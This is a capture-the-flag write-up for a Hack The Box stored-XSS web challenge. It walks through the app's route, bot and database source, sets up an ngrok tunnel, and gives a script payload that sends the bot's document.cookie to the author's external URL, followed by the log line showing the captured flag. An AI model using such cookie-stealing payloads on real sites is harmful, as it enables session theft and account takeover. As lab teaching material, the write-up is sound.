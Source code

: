 # Toy Workshop
> Web Challenge (XSS)


### Webpage 
![[Pasted image 20211207193848.png]]

From the webpage, we can see there's a form that we can send query to.

### Source Code
Route.js

``` js
router.post('/api/submit', async (req, res) => {


	const { query } = req.body;

	if(query){

		return db.addQuery(query)

	.then(() => {

		bot.readQueries(db);

		res.send(response('Your message is delivered successfully!'));

	});

}

	return res.status(403).send(response('Please write your query first!'));

});

  

router.get('/queries', async (req, res, next) => {

	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()

	.then(queries => {

	res.render('queries', { queries });

})

	.catch(() => res.status(500).send(response('Something went wrong!')));

});

```

Interesting thing here are we have 2 path
- /api/submit
	In here, we can add query and the **bot.js** will fetch the queries for us

- /queries
	here, only **127.0.0.1** is allowed to access, so we couldn't access the webpage. (maybe XFF can ? Tried but no luck)

Bot.js
```js
const cookies = [{

	'name': 'flag',

	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'

}];

  
  

const readQueries = async (db) => {

const browser = await puppeteer.launch(browser_options);

let context = await browser.createIncognitoBrowserContext();

let page = await context.newPage();

	await page.goto('http://127.0.0.1:1337/');

	await page.setCookie(...cookies);

	await page.goto('http://127.0.0.1:1337/queries', {

	waitUntil: 'networkidle2'

});

	await browser.close();

	await db.migrate();

};
```
From this, we can see it calls readQueries and add the **flag** to the cookie. Our goal is to get the cookie.

Database.js
```js
async addQuery(query) {

	return new Promise(async (resolve, reject) => {

try {

	let stmt = await this.db.prepare('INSERT INTO queries (query) VALUES (?)');

	resolve(await stmt.run(query));

} catch(e) {

	reject(e);

}

});

}

  

async getQueries() {

	return new Promise(async (resolve, reject) => {

try {

	let stmt = await this.db.prepare('SELECT * FROM queries');

	resolve(await stmt.all());

} catch(e) {

	reject(e);

}

});

}

```
As we can see, the database addQuery and getQueries does not perform any data validation/sanitization, hence we can perform XSS and let it executes in bot.js

### Set up ngrok

``` command
Forwarding                    

http://9bf6-2001-e68-5404-8ff2-13a0-ad52-bbb2-45fa.ngrok.io -> http://localhost:80                                                               
Forwarding                    
https://9bf6-2001-e68-5404-8ff2-13a0-ad52-bbb2-45fa.ngrok.io -> http://localhost:80   
```
We use ngrok to expose our localhost webpage to public so that the bot.js can access it.

### Payload
```js
<script>document.location='http://9bf6-2001-e68-5404-8ff2-13a0-ad52-bbb2-45fa.ngrok.io/?='+document.cookie </script>
```
For the payload, we change the document location to our webpage from ngrok then we concatenate the **cookie** at the end of the url and we are able to obtain the flag !

``` command
127.0.0.1 - - [07/Dec/2021 19:36:20] "GET /?=flag=HTB{f4k3_fl4g_f0r_t3st1ng} HTTP/1.1" 200
```
